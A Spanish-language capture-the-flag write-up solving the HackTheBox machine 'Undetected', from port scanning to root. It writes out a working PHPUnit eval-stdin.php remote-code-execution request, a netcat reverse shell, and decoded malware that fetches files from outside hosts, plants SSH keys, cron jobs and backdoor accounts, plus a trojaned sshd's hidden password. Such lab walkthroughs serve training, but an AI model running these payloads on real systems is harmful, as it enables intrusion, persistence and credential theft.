






Resolución de la máquina Undetected de la plataforma de HackTheBox
Iniciamos escaneando los puertos de la máquina con nmap
❯ nmap 10.10.11.146
Nmap scan report for 10.10.11.146
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
Abrimos la web en el navegador y encontramos algunas pestañas, store nos redirige a "store.djewelry.htb"
Como no hay nada interesante buscamos directorios con gobuster y encontramos "vendor"
❯ gobuster dir -u store.djewelry.htb -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -t 100
===============================================================
[+] Threads: 100
[+] Url: http://store.djewelry.htb
[+] Wordlist: /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/js (Status: 301) [Size: 321] [--> http://store.djewelry.htb/js/]
/images (Status: 301) [Size: 325] [--> http://store.djewelry.htb/images/]
/css (Status: 301) [Size: 322] [--> http://store.djewelry.htb/css/]
/fonts (Status: 301) [Size: 324] [--> http://store.djewelry.htb/fonts/]
/vendor (Status: 301) [Size: 325] [--> http://store.djewelry.htb/vendor/]
Si miramos lo que hay encontramos varios directorios, entre ellos "phpunit"

Buscando vulnerabilidades llegamos a este articulo, el cual dice que si vendor esta expuesto podemos ejecutar codigo php mediante una petición post, lo probamos y funciona
❯ curl http://store.djewelry.htb/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php -d "<?php system('id');"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
Como tenemos rce nos hacemos una reverse shell
❯ curl http://store.djewelry.htb/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php -d "<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.10 443 >/tmp/f');"
❯ sudo netcat -lvnp 443
Connection received on 10.10.11.146
www-data@production:~/store/vendor/phpunit/phpunit/src/Util/PHP$
Ejecutamos linpeas y vemos algunas cosas entre ellas "/var/backups/info"
╔══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 500)
/dev/mqueue
/dev/shm
/dev/shm/linpeas.sh
/run/lock
/run/lock/apache2
/run/screen
/tmp
/tmp/linpeas.sh
/tmp/log
/tmp/tmux-33
/tmp/wow
/tmp/wow/linpeas.sh
/tmp/wow/privesc.txt
/var/backups/info
/var/cache/apache2/mod_cache_disk
/var/crash
/var/lib/php/sessions
/var/tmp
Como es un compilado y no tiene strings lo moveremos al equipo local
www-data@production:~$ file /var/backups/info
ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked,
www-data@production:~$ strings /var/backups/info
Command 'strings' not found.
www-data@production:~$ netcat 10.10.14.10 4444 < /var/backups/info
www-data@production:~$
Lo recibimos con netcat, si le hacemos un strings entre otras cosas obtenemos una cadena
❯ netcat -lvnp 4444 > info
Connection received on 10.10.11.146
❯ strings info
/bin/bash
776765742074656d7066696c65732e78797a2f617574686f72697a65645f6b657973202d4f202f726f6f742f2e7373682f617574686f72697a65645f6b6579733b20776765742074656d7066696c65732e78797a2f2e6d61696e202d4f202f7661722f6c69622f2e6d61696e3b2063686d6f6420373535202f7661722f6c69622f2e6d61696e3b206563686f20222a2033202a202a202a20726f6f74202f7661722f6c69622f2e6d61696e22203e3e202f6574632f63726f6e7461623b2061776b202d46223a2220272437203d3d20222f62696e2f6261736822202626202433203e3d2031303030207b73797374656d28226563686f2022243122313a5c24365c247a5337796b4866464d673361596874345c2431495572685a616e5275445a6866316f49646e6f4f76586f6f6c4b6d6c77626b656742586b2e567447673738654c3757424d364f724e7447625a784b427450753855666d39684d30522f424c6441436f513054396e2f3a31383831333a303a39393939393a373a3a3a203e3e202f6574632f736861646f7722297d27202f6574632f7061737377643b2061776b202d46223a2220272437203d3d20222f62696e2f6261736822202626202433203e3d2031303030207b73797374656d28226563686f2022243122202224332220222436222022243722203e2075736572732e74787422297d27202f6574632f7061737377643b207768696c652072656164202d7220757365722067726f757020686f6d65207368656c6c205f3b20646f206563686f202224757365722231223a783a2467726f75703a2467726f75703a2c2c2c3a24686f6d653a247368656c6c22203e3e202f6574632f7061737377643b20646f6e65203c2075736572732e7478743b20726d2075736572732e7478743b
[-] fork()
/etc/shadow
Si la decodeamos con "xxd -p -r" obtenemos otras cosas entre ellas un hash, al cual si le quitamos los \ quedaría algo así
❯ echo "776765742074656d7066696c65732e78797a2f617574686f72697a65645f6b657973202d4f202f726f6f742f2e7373682f617574686f72697a65645f6b6579733b20776765742074656d7066696c65732e78797a2f2e6d61696e202d4f202f7661722f6c69622f2e6d61696e3b2063686d6f6420373535202f7661722f6c69622f2e6d61696e3b206563686f20222a2033202a202a202a20726f6f74202f7661722f6c69622f2e6d61696e22203e3e202f6574632f63726f6e7461623b2061776b202d46223a2220272437203d3d20222f62696e2f6261736822202626202433203e3d2031303030207b73797374656d28226563686f2022243122313a5c24365c247a5337796b4866464d673361596874345c2431495572685a616e5275445a6866316f49646e6f4f76586f6f6c4b6d6c77626b656742586b2e567447673738654c3757424d364f724e7447625a784b427450753855666d39684d30522f424c6441436f513054396e2f3a31383831333a303a39393939393a373a3a3a203e3e202f6574632f736861646f7722297d27202f6574632f7061737377643b2061776b202d46223a2220272437203d3d20222f62696e2f6261736822202626202433203e3d2031303030207b73797374656d28226563686f2022243122202224332220222436222022243722203e2075736572732e74787422297d27202f6574632f7061737377643b207768696c652072656164202d7220757365722067726f757020686f6d65207368656c6c205f3b20646f206563686f202224757365722231223a783a2467726f75703a2467726f75703a2c2c2c3a24686f6d653a247368656c6c22203e3e202f6574632f7061737377643b20646f6e65203c2075736572732e7478743b20726d2075736572732e7478743b" | xxd -p -r
wget tempfiles.xyz/authorized_keys -O /root/.ssh/authorized_keys; wget tempfiles.xyz/.main -O /var/lib/.main; chmod 755 /var/lib/.main; echo "* 3 * * * root /var/lib/.main" >> /etc/crontab; awk -F":" '$7 == "/bin/bash" && $3 >= 1000 {system("echo "$1"1:\$6\$zS7ykHfFMg3aYht4\$1IUrhZanRuDZhf1oIdnoOvXoolKmlwbkegBXk.VtGg78eL7WBM6OrNtGbZxKBtPu8Ufm9hM0R/BLdACoQ0T9n/:18813:0:99999:7::: >> /etc/shadow")}' /etc/passwd; awk -F":" '$7 == "/bin/bash" && $3 >= 1000 {system("echo "$1" "$3" "$6" "$7" > users.txt")}' /etc/passwd; while read -r user group home shell _; do echo "$user"1":x:$group:$group:,,,:$home:$shell" >> /etc/passwd; done < users.txt; rm users.txt;
$6$zS7ykHfFMg3aYht4$1IUrhZanRuDZhf1oIdnoOvXoolKmlwbkegBXk.VtGg78eL7WBM6OrNtGbZxKBtPu8Ufm9hM0R/BLdACoQ0T9n/
Si rompemos el hash con john obtenemos una contraseña
❯ cat hash
$6$zS7ykHfFMg3aYht4$1IUrhZanRuDZhf1oIdnoOvXoolKmlwbkegBXk.VtGg78eL7WBM6OrNtGbZxKBtPu8Ufm9hM0R/BLdACoQ0T9n/
❯ john --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt hash
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 XOP 2x])
ihatehackers (?)
Session completed
Usando el usuario steven1 y la contraseña podemos conseguir el usuario
www-data@production:~$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
steven:x:1000:1000:Steven Wright:/home/steven:/bin/bash
steven1:x:1000:1000:,,,:/home/steven:/bin/bash
www-data@production:~$ su steven1
Password: ihatehackers
steven@production:~$ cat user.txt
e18**************************dec
steven@production:~$
Si ejecutamos de nuevo linpeas encontramos "mails", asi que revisemos alguno
╔══════════╣ Mails (limit 50)
-rw-rw---- 1 steven mail 966 Jul 25 2021 /var/mail/steven
-rw-rw---- 1 steven mail 966 Jul 25 2021 /var/spool/mail/steven
steven@production:~$ cat /var/spool/mail/steven
Hi Steven.
We recently updated the system but are still experiencing some strange behaviour with the Apache service.
We have temporarily moved the web store and database to another server whilst investigations are underway.
If for any reason you need access to the database or web application code, get in touch with Mark and he
will generate a temporary password for you to authenticate to the temporary server.
Thanks,
sysadmin
Resumiendo, ha dicho que el servicio apache se ha movido, y efectivamente lo vemos en /usr/lib/apache2
steven@production:~$ ls /usr/lib/apache2
modules
steven@production:~$
Si miramos lo que hay en modules vemos que hay un archivo con fecha diferente a todos los demás
steven@production:~$ ls -l /usr/lib/apache2/modules
<...............................................................>
-rw-r--r-- 1 root root 18560 Jan 5 14:49 mod_proxy_wstunnel.so
-rw-r--r-- 1 root root 14544 Jan 5 14:49 mod_ratelimit.so
-rw-r--r-- 1 root root 34800 May 17 2021 mod_reader.so
-rw-r--r-- 1 root root 14544 Jan 5 14:49 mod_reflector.so
-rw-r--r-- 1 root root 30928 Jan 5 14:49 mod_remoteip.so
<...............................................................>
Después de pasarlo a nuestro equipo con netcat como anteriormente hicimos, al analizarlo con ghidra, en la funcion "hook_post_config" encontramos lo siguiente

int hook_post_config(apr_pool_t *pconf,apr_pool_t *plog,apr_pool_t *ptemp,server_rec *s)
{
long lVar1;
long in_FS_OFFSET;
char *args [4];
lVar1 = *(long *)(in_FS_OFFSET + 0x28);
pid = fork();
if (pid == 0) {
b64_decode("d2dldCBzaGFyZWZpbGVzLnh5ei9pbWFnZS5qcGVnIC1PIC91c3Ivc2Jpbi9zc2hkOyB0b3VjaCAtZCBgZGF0 ZSArJVktJW0tJWQgLXIgL3Vzci9zYmluL2EyZW5tb2RgIC91c3Ivc2Jpbi9zc2hk"
,(char *)0x0);
args[2] = (char *)0x0;
args[3] = (char *)0x0;
args[0] = "/bin/bash";
args[1] = "-c";
execve("/bin/bash",args,(char **)0x0);
}
if (lVar1 == *(long *)(in_FS_OFFSET + 0x28)) {
return 0;
}
/* WARNING: Subroutine does not return */
__stack_chk_fail();
}
Al decodear la cadena en base64 que nos da encontramos lo siguiente
❯ echo "d2dldCBzaGFyZWZpbGVzLnh5ei9pbWFnZS5qcGVnIC1PIC91c3Ivc2Jpbi9zc2hkOyB0b3VjaCAtZCBgZGF0ZSArJVktJW0tJWQgLXIgL3Vzci9zYmluL2EyZW5tb2RgIC91c3Ivc2Jpbi9zc2hk" | base64 -d
wget sharefiles.xyz/image.jpeg -O /usr/sbin/sshd; touch -d `date +%Y-%m-%d -r /usr/sbin/a2enmod` /usr/sbin/sshd
Nos pasamos "/usr/sbin/sshd" de la maquina a la nuestra y lo abrimos con ghidra también
Al abrirlo podemos ver una función auth_password que contiene lo siguiente

int auth_password(ssh *ssh,char *password)
{
Authctxt *ctxt;
passwd *ppVar1;
int iVar2;
uint uVar3;
byte *pbVar4;
byte *pbVar5;
size_t sVar6;
byte bVar7;
int iVar8;
long in_FS_OFFSET;
char backdoor [31];
byte local_39 [9];
long local_30;
bVar7 = 0xd6;
ctxt = (Authctxt *)ssh->authctxt;
local_30 = *(long *)(in_FS_OFFSET + 0x28);
backdoor._28_2_ = 0xa9f4;
ppVar1 = ctxt->pw;
iVar8 = ctxt->valid;
backdoor._24_4_ = 0xbcf0b5e3;
backdoor._16_8_ = 0xb2d6f4a0fda0b3d6;
backdoor[30] = -0x5b;
backdoor._0_4_ = 0xf0e7abd6;
backdoor._4_4_ = 0xa4b3a3f3;
backdoor._8_4_ = 0xf7bbfdc8;
backdoor._12_4_ = 0xfdb3d6e7;
pbVar4 = (byte *)backdoor;
while( true ) {
pbVar5 = pbVar4 + 1;
*pbVar4 = bVar7 ^ 0x96;
if (pbVar5 == local_39) break;
bVar7 = *pbVar5;
pbVar4 = pbVar5;
}
iVar2 = strcmp(password,backdoor);
uVar3 = 1;
if (iVar2 != 0) {
sVar6 = strlen(password);
uVar3 = 0;
if (sVar6 < 0x401) {
if ((ppVar1->pw_uid == 0) && (options.permit_root_login != 3)) {
iVar8 = 0;
}
if ((*password != '\0') ||
(uVar3 = options.permit_empty_passwd, options.permit_empty_passwd != 0)) {
if (auth_password::expire_checked == 0) {
auth_password::expire_checked = 1;
iVar2 = auth_shadow_pwexpired(ctxt);
if (iVar2 != 0) {
ctxt->force_pwchange = 1;
}
}
iVar2 = sys_auth_passwd(ssh,password);
if (ctxt->force_pwchange != 0) {
auth_restrict_session(ssh);
}
uVar3 = (uint)(iVar2 != 0 && iVar8 != 0);
}
}
}
if (local_30 == *(long *)(in_FS_OFFSET + 0x28)) {
return uVar3;
}
/* WARNING: Subroutine does not return */
__stack_chk_fail();
}
Podemos ver que backdoor tiene un total de 31 carácteres
char backdoor [31];
Y vemos los valores que backdoor tiene
backdoor._24_4_ = 0xbcf0b5e3;
backdoor._16_8_ = 0xb2d6f4a0fda0b3d6;
backdoor[30] = -0x5b;
backdoor._0_4_ = 0xf0e7abd6;
backdoor._4_4_ = 0xa4b3a3f3;
backdoor._8_4_ = 0xf7bbfdc8;
backdoor._12_4_ = 0xfdb3d6e7;
backdoor._28_2_ = 0xa9f4;
Si los ordenamos de mayor a menor nos quedaria lo siguiente
30 = -0x5b
28.2 = 0xa9f4
24.4 = 0xbcf0b5e3
16.8 = 0xb2d6f4a0fda0b3d6
12.4 = 0xfdb3d6e7
8.4 = 0xf7bbfdc8
4.4 = 0xa4b3a3f3
0.4 = 0xf0e7abd6
Si damos clic derecho en ghidra al primer valor (30 = -0x5b) y vemos el char, vemos que el valor podemos cambiarlo por "0xa5"

Después de todo esto obtenemos los siguientes valores
0xa5
0xa9f4
0xbcf0b5e3
0xb2d6f4a0fda0b3d6
0xfdb3d6e7
0xf7bbfdc8
0xa4b3a3f3
0xf0e7abd6
Podemos usar CyberChef, introducimos lo que conocemos, los valores y como output obtenemos una contraseña


En este punto solo nos queda conectarnos como root por ssh
❯ ssh root@10.10.11.146
root@10.10.11.146's password: @=qfe5%2^k-aq@%k@%6k6b@$u#f*b?3
root@production:~# cat root.txt
e01************************972
root@production:~#